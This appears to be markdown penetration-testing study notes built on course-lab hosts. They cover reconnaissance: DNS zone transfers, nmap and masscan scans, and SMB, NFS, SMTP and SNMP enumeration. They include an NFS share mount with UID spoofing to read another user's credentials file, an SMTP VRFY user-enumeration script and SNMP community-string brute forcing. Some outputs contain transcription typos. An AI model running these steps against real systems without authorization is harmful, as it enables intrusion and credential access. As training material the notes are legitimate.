






[TOC]


# Hackers Playbook

# 1. Reconnaissance / Information gathering

## Passive Reconnaissance

#### Recon-NG

https://github.com/lanmaster53/recon-ng

```
# recon-ng
[*] Version check disabled.

    _/_/_/    _/_/_/_/    _/_/_/    _/_/_/    _/      _/            _/      _/    _/_/_/
   _/    _/  _/        _/        _/      _/  _/_/    _/            _/_/    _/  _/       
  _/_/_/    _/_/_/    _/        _/      _/  _/  _/  _/  _/_/_/_/  _/  _/  _/  _/  _/_/_/
 _/    _/  _/        _/        _/      _/  _/    _/_/            _/    _/_/  _/      _/ 
_/    _/  _/_/_/_/    _/_/_/    _/_/_/    _/      _/            _/      _/    _/_/_/    


                                          /\
                                         / \\ /\
    Sponsored by...               /\  /\/  \\V  \/\
                                 / \\/ // \\\\\ \\ \/\
                                // // BLACK HILLS \/ \\
                               www.blackhillsinfosec.com

                  ____   ____   ____   ____ _____ _  ____   ____  ____
                 |____] | ___/ |____| |       |   | |____  |____ |
                 |      |   \_ |    | |____   |   |  ____| |____ |____
                                   www.practisec.com

                      [recon-ng v5.1.1, Tim Tomes (@lanmaster53)]                       

[2] Recon modules

[recon-ng][default] > 


```


#### theHarvester 

https://github.com/laramies/theHarvester

```
kali@kali:~$ theHarvester -d megacorpone.com -b google
```


## Active Reconnaissance

### DNS Enumeration

#### DNSRecon

```
kali@kali:-$ dnsrecon -d megacorpone.com -t axfr                                           
```

#### DNSenum

```
kali@kali:-#dnsenum zonetransfer.me      
```

#### NMAP NSE script (dns-zone-transfer)

```
kali@kali:~$ nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:43 EST
Nmap scan report for ns2.megacorpone.com (3.211.51.86)
Host is up (0.25s latency).
rDNS record for 3.211.51.86: ec2-3-211-51-86.compute-1.amazonaws.com

PORT   STATE SERVICE
53/tcp open  domain
| dns-zone-transfer: 
| megacorpone.com.           SOA  ns1.megacorpone.com. admin.megacorpone.com.
| megacorpone.com.           TXT  "Try Harder"
| megacorpone.com.           TXT  "google-site-verification=U7B_b0HNeBtY4qYGQZNsEYXfCJ32hMNV3GtC0wWq5pA"
| megacorpone.com.           MX   10 fb.mail.gandi.net.
| megacorpone.com.           MX   20 spool.mail.gandi.net.
| megacorpone.com.           MX   50 mail.megacorpone.com.
| megacorpone.com.           MX   60 mail2.megacorpone.com.
| megacorpone.com.           NS   ns1.megacorpone.com.
| megacorpone.com.           NS   ns2.megacorpone.com.
| megacorpone.com.           NS   ns3.megacorpone.com.
| admin.megacorpone.com.     A    3.220.61.179
| beta.megacorpone.com.      A    3.220.61.179
| fs1.megacorpone.com.       A    3.220.61.179
| intranet.megacorpone.com.  A    3.220.61.179
| mail.megacorpone.com.      A    3.220.61.179
| mail2.megacorpone.com.     A    3.220.61.179
| ns1.megacorpone.com.       A    3.220.61.179
| ns2.megacorpone.com.       A    3.211.51.86
| ns3.megacorpone.com.       A    3.212.85.86
| router.megacorpone.com.    A    3.220.61.179
| siem.megacorpone.com.      A    3.220.61.179
| snmp.megacorpone.com.      A    3.220.61.179
| support.megacorpone.com.   A    3.212.85.86
| syslog.megacorpone.com.    A    3.220.61.179
| test.megacorpone.com.      A    3.220.61.179
| vpn.megacorpone.com.       A    3.220.61.179
| www.megacorpone.com.       A    3.220.87.155
| www2.megacorpone.com.      A    3.220.61.179
|_megacorpone.com.           SOA  ns1.megacorpone.com. admin.megacorpone.com.

Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```


### Port Scanning

#### NMAP

##### Stealth | SNY Scanning (-sS)

- SYN scanning is a TCP port scanning method that involves sending SYN packets to various ports on a target machine without completing a TCP handshake.

```
# nmap -sS 192.168.0.196  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 00:42 EST
Nmap scan report for 192.168.0.196
Host is up (0.00052s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
MAC Address: 00:0C:29:95:9D:B8 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 5.11 seconds
```

##### TCP Connect Scanning (-sT)

- TCP connect scan is the default TCP scan type
- establish a full **connection** (Three way handshake)

```
# nmap -sT 192.168.101.114                                                                                    255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-09 04:10 EST
Nmap scan report for 192.168.101.114
Host is up (0.0016s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
MAC Address: 84:7B:EB:0D:5B:64 (Dell)

Nmap done: 1 IP address (1 host up) scanned in 5.17 seconds
```

##### UDP Scanning (-sU)

```
ka1i@kali:~$ sudo nmap -sU 10.11.1.115
Starting Nmap 7.70 ( https://nmap.org) at 2019-03-04 11:46 EST
Nmap scan report for 10.11.1.115
Host is up (0.079s latency).
Not shown: 997 openlfiltered ports
PORT STATE SERVICE
111/udp open rpcbind
137/udp open netbios-ns
161/udp open snmp

Nmap done: l IP address (1 host up) scanned in 22.49 seconds
```

The UDP scan (-sU) can also be used in conjunction with a TCP SYN  (-sS) option to build a scan more complete picture of our target: 

```
kali@kali:~$ sudo nmap -sS -sU 10.11.1.115
Starting Nmap 7.70 ( https://nmap.org) at 2019-03-04 12:46 EST
Nmap scan report for 10.11.1.115
Host is up (0.15s latency).
Not shown: 997 openlfiltered ports, 989 closed ports
PORT		STATE	SERVICE 
21/tcp		open	ftp
22/tcp		open	ssh	
25/tcp		open	smtp
80/tcp		open	http
111/tcp		open	rpcbind
139/tcp		open	netbios-ssn
143/tcp		open	imap
199/tcp		open	smux
443/tcp		open	https
3306/tcp	open	mysql
32768/tcp 	open	filenet-tms
111/udp		open	rpcbind
137/udp		open	netbios-ns
161/udp 	open	snmp

Nmap done: l IP address (l host up) scanned in 64.74 seconds
```

##### Network Sweeping (-sn)

```
kali@kali:~$ nmap -sn 192.168.0.1-254                                                     Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:12 EST
Nmap scan report for 192.168.0.1
Host is up (0.0016s latency).
Nmap scan report for 192.168.0.107
Host is up (0.027s latency).
Nmap scan report for 192.168.0.196
Host is up (0.0039s latency).
Nmap scan report for 192.168.0.207
Host is up (0.0088s latency).
Nmap scan report for 192.168.0.223
Host is up (0.0012s latency).
Nmap done: 254 IP addresses (5 hosts up) scanned in 6.82 seconds
```

##### OS Fingerprinting (-0)

- OS detection

```
kali@kali:~$ sudo nmap -O 192.168.0.196                                                   [sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:30 EST
Nmap scan report for 192.168.0.196
Host is up (0.0011s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
MAC Address: 00:0C:29:95:9D:B8 (VMware)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

##### Banner Grabbing/Service Enumeration

We can also identify services running on specific ports by inspecting service banners (-sV) and running various OS and service enumeration scripts (-A) against the target

```
kali@kali:~$ nmap -sV -sT -A 192.168.0.196
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:38 EST
Nmap scan report for 192.168.0.196
Host is up (0.00060s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows 10 Pro 18362 microsoft-ds (workgroup: WORKGROUP)
2869/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DESKTOP-H5AKSBG
|   NetBIOS_Domain_Name: DESKTOP-H5AKSBG
|   NetBIOS_Computer_Name: DESKTOP-H5AKSBG
|   DNS_Domain_Name: DESKTOP-H5AKSBG
|   DNS_Computer_Name: DESKTOP-H5AKSBG
|   Product_Version: 10.0.18362
|_  System_Time: 2020-12-15T09:39:00+00:00
| ssl-cert: Subject: commonName=DESKTOP-H5AKSBG
| Not valid before: 2020-12-08T02:39:09
|_Not valid after:  2021-06-09T02:39:09
|_ssl-date: 2020-12-15T09:39:05+00:00; 0s from scanner time.
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: DESKTOP-H5AKSBG; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1h36m00s, deviation: 3h34m39s, median: 0s
|_nbstat: NetBIOS name: DESKTOP-H5AKSBG, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:95:9d:b8 (VMware)
| smb-os-discovery: 
|   OS: Windows 10 Pro 18362 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: DESKTOP-H5AKSBG
|   NetBIOS computer name: DESKTOP-H5AKSBG\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-12-15T17:39:00+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-15T09:39:00
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.33 seconds
```

##### Nmap Scripting Engine (NSE)

- NSE scripts are located in the /usr/share/nmap/scripts directory.

```
kali@kali:~$ nmap 192.168.0.196 --script=smb-os-discovery
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:42 EST
Nmap scan report for 192.168.0.196
Host is up (0.00039s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 18362 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: DESKTOP-H5AKSBG
|   NetBIOS computer name: DESKTOP-H5AKSBG\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-12-15T17:42:11+08:00

Nmap done: 1 IP address (1 host up) scanned in 2.02 seconds
```

#### Metasploit

```
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > show options 

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.101.113
RHOSTS => 192.168.101.113
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.168.101.113:      - 192.168.101.113:80 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:135 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:139 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:445 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:443 - TCP OPEN

```


#### Masscan

Masscan is arguably the fastest port scanner; it can scan the entire Internet in about 6 minutes.  transmitting an astounding 10 miIlion packets per second! While it was originally designed to scan the entire Internet, it can easily handle a class A or B subnet, which is a more suitable target range during a penetration test.

Masscan is not installed on Kali by default; it must be installed using apt install:

```
kali@kali:~$ sudo apt install masscan
```

Consider this demonstration that locates all machines on a large internal network with TCP port 80 open (using the -p80 option). Since masscan implements a custom TCP/IP stack, it will require access to raw sockets and therefore requires sudo.

```
kali@kali:~$ sudo masscan -p80 10.0.0.0/8
```

We will add a few additional masscan options, including --rate to specify the desired rate of packet  transmission, -e to specify the raw network interface to use, and --router-ip to specify the IP address for the appropriate gateway:

```
kali@kali:~$ sudo masscan -p80 10.11.1.8/24 --rate=1000 -e tap0 --router-ip 10.11.0.1

Starting masscan 1.0.3 (http://bit.ly/l4GZzcT) at 2019-03-04 17:15:40 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 256 hosts [l port/host]
Discovered open port 80/tcp on 10.11.1.14
Discovered open port 80/tcp on 10.11.1.39
Discovered open port 80/tcp on 10.11.1.219
Discovered open port 80/tcp on 10.11.1.227
Di scovered open port 80/tcp on 10.11.1.10
Discovered open port 80/tcp on 10.11.1.50
Discovered open port 80/tcp on 10.11.1.234
...
```

### 

### SMB Enumeration

#### Nmap SMB scan

```
kali@kali:~$ nmap -v -p 139,445 -oG smb.txt 192.168.0.223
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:57 EST
Initiating Ping Scan at 04:57
Scanning 192.168.0.223 [2 ports]
Completed Ping Scan at 04:57, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:57
Completed Parallel DNS resolution of 1 host. at 04:57, 0.03s elapsed
Initiating Connect Scan at 04:57
Scanning 192.168.0.223 [2 ports]
Completed Connect Scan at 04:57, 0.00s elapsed (2 total ports)
Nmap scan report for 192.168.0.223
Host is up (0.00023s latency).

PORT    STATE  SERVICE
139/tcp closed netbios-ssn
445/tcp closed microsoft-ds

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```


#### Nbtscan


### NFS Enumeration

Both Portmapper  and RPCbind run on TCP port 111. RPCbind maps RPC services to the ports on which they listen. RPC processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.

#### Scanning for NFS Shares

We can scan these ports with nmap using the following syntax:

```
kali@kali:~$ nmap -v -p 111 10.11.1.1-254
```

We can use NSE scripts like rpcinfo to fi nd services that may have registered with rpcbind:

```
kal i@kali:~$ nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
Nmap scan report for 10.11.1.72
Host is up (0.0055s latency).
PORT 	STATE SERVICE
111/tcp open  rpcbind
rpcinfo:
program version		port/proto	service 
100000  2,3,4		111/tcp		rpcbind
100000  2,3,4 		111/udp		rpcbind
100003  2,3,4		2049/tcp	nfs
100003  2,3,4		2049/udp	nfs
100005  1,2,3		50255/udp	mountd
100005  1,2,3		56911/tcp	mountd
100021  1,3,4		40160/udp	nlockmgr
100021  1,3,4		57765/tcp	nlockmgr
100024  1			34959/udp	status
100024  1			46908/tcp	status
100227  2,3			2049/tcp	nfs_acl
100227  2,3			2049/udp	nfs_acl	
...
```

Once we find NFS running, we can collect additional information, en umerate NFS services, and discover additional services using NSE scripts found in the /usr/share/nmap/scripts directory:

```
kali@kali:~$ nmap -p 111 --script nfs* 10.11.1.12
...
Nmap scan report for 10,11,1,72
PORT
STATE SERVI CE
111/tcp open rpcbind
| nfs-showmount:
|_  /home 10.11.0.0/255.255.0.
```

In this case, the entire /home directory is being shared and we can access it by mounting it on our Kali virtual machine. We will use mount to do this, along with -o nolock to disable file locking, which is often needed for older NFS servers:

```
kali@kali:-$ mkdir home

kali@kali:~$ sudo mount -o nolock 10.11.1.12:/home -/home/

kali@kali:~$ cd home/ && ls
jenny joe45 john marcus ryuu
```

Based on this file listing, we can see that there are a few home directories for local users on the remote machine. Digging a blt deeper, we find a filename that catches our attention, so we try to view it:

```
kali@kali:-/home$ cd marcus
kali@kali:~/home/marcus$ ls -la
total 24
drwxr-xr-x 2 1014 1014 4096 Jun 10 09: 16 •
drwxr-xr-x 7 root root 4096 Sep 17 2015 ..
-rwx------ 1 1814 1814
48 Jun 10 89:16 creds.txt

kali@kali:-/home/marcus$ cat creds.txt
cat: creds.txt: Permission denied
```

It appears we do not have permission to view this file. Taking a closer look at the file permissions, we can see that its owner has a UUID of 1014, and also read (r), write (w), and execute (x) permissions on it. What can we do with this information? Since we have complete access to our Kali machine, we can try to add a local user to it using the adduser command, change its UUID to 1014, su to that user, and then try  ccessing the file again:

```
kali@kali:-/home/stefan$ sudo adduser pwn
Adding user 'pwn' ...
Adding new group 'pwn' (1001) .••
Adding new user 'pwn' (1001) with group 'pwn' ...
Creating home directory '/home/pwn'
Copying files from '/etc/skel' ..•
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
Changing the user information for pwn
Enter the new value, or press ENTER for the default
Full Name []:
Room Number [] :
Work Phone []:
Home Phone [] :
Other[]:
Is the information correct? [V/n]
```

Based on the output above, we can see that the new user has a UUID of 1001, which is not really what we need. We ca n change it to 1014 using sed and confirm the change took place. The -i option is used to replace the file in-place and the -e option executes a script. In this case, that happens to be 's/1001/1014/g ', which will globally replace the UUID in the /etc/passwd file:

```
kali@kali:-/home/marcus$ sudo sed -i -e 's/1001/1014/g' /etc/passwd

kali@kali:~/home/marcus$ cat /etc/passwd | grep pwn
pwn:x :1014:1014 :,,,:/home/pwn:/bin/bash
```

So far so good. Let's try to su to the newly added pwn user, verify that our UUID has indeed changed, and then try accessing that file again. We will use the su command to change the current login session's owner. Then, we will use id to display our current user ID. Finally, we wi ll try to access the file again:

```
kali@ka1i:~/home/marcus$ su pwn

pwn@ka1i:/root/home/marcus$ id
uid=1014(pwn) gid=1014 groups=1014

pwn@ka1i:/root/home/marcus$ cat creds.txt
Not what you are looking for, try harder!!! :0)
```


### SMTP Enumeration

We can also gather information about a host or network from vulnerable mail servers. The Simple Mail Transport Protocol (SMTP)  supports several interesting commands, such as VRFY and EXPN. A VRFY request asks the server to verify an email address, w hile EXPN asks the server for the membership of a mailing list. These can often be abused to verify existing users on a mail server, w hich is useful informatfon during a penetration test. Consider this example:

```
kali@ka1i:~$ nc -nv 10.11.1.211 25
(UNKNOWN) (10.11.1.217] 25 (smtp) open
220 hot1ine.localdomain ESMTP Postfix
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient add ress rejected: User unknown in local recipient table
^C
```

Notice how the success and error messages differ. The SMTP server happily verifies that the user exists. Thf s procedure can be used to help guess valid usernames in an automated fashion. Consider the following Python script that opens a TCP socket, connects to the SMTP server, and issues a VRFY command for a given username:

```
#!/usr/bin/python

import socket
import sys

if len(sys.argv) != 2:
	print "Usage: vrfy.py <username>"
	sys.exit(0)
	
# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
connect= s.connect(('10.11.1.217',25))

# Receive the banner
banner= s.recv(1024)

print banner

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result= s.recv(1024)

print result

# Close the socket
s.close()
```


### SNMP Enumeration

#### NMAP

To scan for open SNMP ports, we can run nmap as shown in the example that follows. The -sU option is used to perform UDP scanning and t he --open option is used to limit the output to only display open ports:

```
kali@kali:~$ sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt
Starting Nmap 7.70 ( https://nmap.org) at 2019-05-01 06:26 MDT
Nmap scan report for 10.11.1.7
Host is up (0.080s latency).
PORT    STATE SERVICE
161/udp openl filtered snmp
MAC Address: 00:50:56:89:lA:CD (VMware)

Nmap scan report for 10.11.1.10
Host is up (0.080s latency).

PORT    STATE  SERVICE
161/udp openl  filtered snmp
MAC Address: 00:50:56:93:4E:DC (VMware)
...
```

#### onesixtyone

Alternatively, we can use a tool such as onesixtyone, which will attempt a brute force attack against a list of IP add resses. First we must build text files containing community strings and the IP addresses we wish to scan:

```
kali@kali:~$ echo public > community
kali @kali: ~$ echo private>> community
kali @kali:-$ echo manager >> community

kali@kali:~$ for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips

kali@kali:~$ onesixtyone -c community -i ips
Scanning 254 hosts, 3 communities
10.11.1.14 [public] Hardware: x86 Family 6 Model 12 Stepping 2 AT/AT COMPATIBLE - Soft
wa re: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)
10.11.1.13 [public] Hardware: x86 Family 6 Model 12 Stepping 2 AT/AT COMPATIBLE - Soft
wa re: Wi ndows 2000 Version 5.1 (Build 2600 Uniprocessor Free)
10.11,1.22 [public] Linux barry 2.4.18-3 #1 Thu Apr 18 07:37:53 EDT 2002 i686
...
```

#### snmpwalk

##### Windows SNMP Enumeration Example

We can probe and query SNMP values using a tool such as snmpwalk provided we at least know
the SNMP read-only community string, which in most cases is "public".

###### Enumerating the Entire MIB Tree

Using some of the MIB values provided in Listing , we can attempt to enumerate their corresponding values. Try out the following examples against a known machine in the labs, which has a Windows SNMP port exposed wit h the community string "public". This command enumerates the entire MIB tree using the -c option to specify the community string, and -v to specify the SNMP version number as well as the -t 10 to increase the timeout period to 10 seconds:

```
kali@kali:~$ snmpwalk -c public -v1 -t 10  10.11.1.14
iso.3.6.1.2.1.1.1.0 = STRI NG: "Hardwa re: x86 Family 6 Model 12 Stepping 2 AT/AT COMPAT
IBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3,1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (2005539644) 232. days, 2:56:36.44
iso.3.6.1.2.1.1.4.0 = 1111
...
```

###### Enumerating Windows Users

This example enumerates the Windows users:

```
kali@kali:~$ snmpwalk -c public -vl 10.11.1.14 1.3.6.1.4.1.77.1.2.25
iso.3.6.1.4.1.77.1.2.25.1.1.3.98.111.98 = STRING: "bob"
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest''
iso.3.6.1.4.1.77.1.2.25.1.1.8.73.85.83.82.95.66.79.66 = STRING: " IUSR_BOB"
```

###### Enumerating Running Windows Processes

This example enumerates the running Windows processes:

```
kali@kali:~$ snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2
iso.3.6.1.2.1.25.4.2.1.2.1 = STRING: "System Idle Pr-ocess "
iso.3.6.1.2.1.25.4.2.1.2.4 = STRING: "System"
iso.3.6.1.2.1.25.4.2.1.2.224 = STRING: "smss.exe"
iso.3.6.1.2.1.25.4.2.1.2.324 = STRING: "csrss.exe"
iso.3.6.1.2.1.25.4.2.1.2.364 = STRING: "wininit.exe"
iso.3.6.1.2.1.25.4.2.1.2.372 = STRING: "csrss.exe"
iso.3.6.1.2.1.25.4.2.1.2.420 = STRING: "winlogon.exe"
iso.3.6.1.2.1.25.4.2.1.2.448 = STRING: "services.exe"
iso.3.6.1.2.1.25.4.2.1.2.480 = STRING: "lsass.exe"
iso.3.6.1.2.1.25.4.2.1.2.488 = STRING: "lsm.exe"
...
```

###### Enumerating Open TCP Ports

